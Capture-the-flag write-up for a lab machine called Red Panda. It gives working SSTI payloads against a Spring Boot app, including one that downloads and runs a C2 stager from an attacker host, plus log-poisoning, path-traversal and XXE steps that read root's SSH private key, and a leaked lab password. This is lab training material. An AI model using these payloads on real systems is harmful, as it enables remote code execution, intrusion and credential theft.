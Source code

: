 
# ***Red Panda***

## *User Own*

We'll start with nmap scan:

```bash
$ sudo nmap 10.10.11.170 -Pn -p- -A -vv -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Grab services:

```bash
$ cat nmap-scan | grep -o -e '[0-9]\+/tcp[[:space:]].*'
```

- [ ] 22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- [ ] 8080/tcp open  http-proxy syn-ack ttl 63


Take a look at http-title: 

```
http-title: Red Panda Search | Made with Spring Boot
```

Great, the backend is written in Java & Spring Boot. Also, whenewer we send
a request to server, we receive an html page in response. That means, that developers
used Server-Side Rendering (SSR).

Insert the following string to induce an error:

> ${{<%[%'"}}%

Error happened! Now we have to find an expression that will be evaluated by SSR
framework. Just by "searching" 7*7, we get 49 in the page.

Visit [Payload All The Things' SSTI section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
Scroll down to "Java" payloads. 

```
Java - Basic injection

    Multiple variable expressions can be used, if ${...} doesn't work try #{...}, *{...}, @{...} or ~{...}.
```

By trial and error we establish that payload, that gives us RCE, has to be enclosed
in *{ ... } .

Example of payload:

```
*{T(java.lang.System).getenv()}
```

Let's get a connection with C2. Put the C2 stager in "exploit.sh", start http server and
execute these commands:

```
*{T(java.lang.Runtime).getRuntime().exec('curl http://$ATTACKER_IP:8000/exploit.sh -o exploit.sh && chmod +x exploit.sh')}

*{T(java.lang.Runtime).getRuntime().exec('bash exploit.sh')}
```

User flag is in woodenk's home directory.

---

## *System Own*

Run linpeas.sh on the infected machine. It picks up a couple of things:

1. PermitRootLogin yes - we can log in as root via ssh
2. Weird directory in root called "/credits"
3. Processes run as root:

```bash
$ pstree -p root -a
```

```
  ├─cron,875 -f
  │   └─cron,878 -f
  │       └─sh,880 -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
  │           └─sudo,881 -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
  │               └─java,888 -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```

Applications' files are in /opt directory. Transfer them to your machine for further analysis.

We'll find database credentials that also work for ssh:

> woodenk:RedPandazRule

We'll start with PandaSearch app:

1. Each request gets logged in /opt/panda_search/redpanda.log
2. Log entry looks like:
```
responseCode + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri
```
3. Controller has 3 endpoints:
    1. /search:
        - Gets panda's name from request parameter "name"
        - Filters out queries that contain "%", "_", "$", "~"
        - Gets panda's info if its name is LIKE %name%
        - Puts the info into page
    2. /stats
        - Gets author's name from optional request param "author"
        - Author has to be one of ["woodenk", "damian"]
        - Reads file from "/credits/" + author + "_creds.xml" file and returns the contents
    3. /export.xml
        - Gets author's name from request param "author"
        - Author has to be one of ["woodenk", "damian"]
        - Reads file from "/credits/" + author + "_creds.xml" file and returns the contents


Let's move on to Logger. In a nutshell, what it does is:

1. Read strings from /opt/panda_search/redpanda.log file.
2. In order for a string to be parsed, it has to contain ".jpg"
3. Each parsed string is splitted by "||" to get:
   1. status_code (int)
   2. ip (string)
   3. user_agent (string)
   4. uri (string)
4. Infer author from uri:
   1. Read metadata from /opt/panda_search/src/main/resources/static$uri
   2. Return the value of "Artist" in metadata
   3. Build xml path: "/credits/" + $artist + "_creds.xml"
   4. Build XML file at that path if not exists with similar structure:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
   <image>
      <uri>/img/angy-author.jpg</uri>
      <views>1</views>
   </image>
   <totalviews>1</totalviews>
</root>
```

5. Read XML at that path. If uri matches $uri, then update it.

### ***Exploitation***

1. Download any jpg from the Internet and modify its metadata: set Artist to relative 
path of you XXE payload, altough remember that malicious XML file will have
"_creds.xml" appended by logger:

```bash
$ exiftool "-Artist=../../../../../../../../../../../../../../../../../../home/woodenk/xxe" malicious.jpg
```

2. Create xxe_creds.xml file with the following contents:

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa">]>
<root>
    <image>
        <uri>/img/angy-author.jpg</uri>
        <views>2</views>
        <foo>&xxe;</foo>
    </image>
    <totalviews>2</totalviews>
</root>
```

3. Transfer both files into woodenk's home directory. 

4. Trick logger into reading a malicious image file instead of a legitimate one.
You will have to add the following entry to the log file:

```
200||10.10.10.10||FF||/../../../../../../../../../../../../home/woodenk/malicious.jpg
```

Unfortunately, we can't just visit the /../../...../malicious.jpg, because the "../"
stuff will be resolved into "", so what you'll be really visiting is "/home/.....".
Luckily for us, we can write stuff before the vulnerable parameter "uri". So we can
poison "User-Agent" to look like "||/../../......./malicious.jpg". We need "||" on the
start to "shift" the payload into position where uri would be:

```bash
$ curl http://10.10.11.170:8080/aaaaa -H "User-Agent: ||/../../../../../../../../../../../../home/woodenk/malicious.jpg"
```

5. Checkout your xxe_creds.xml for root's private ssh key!
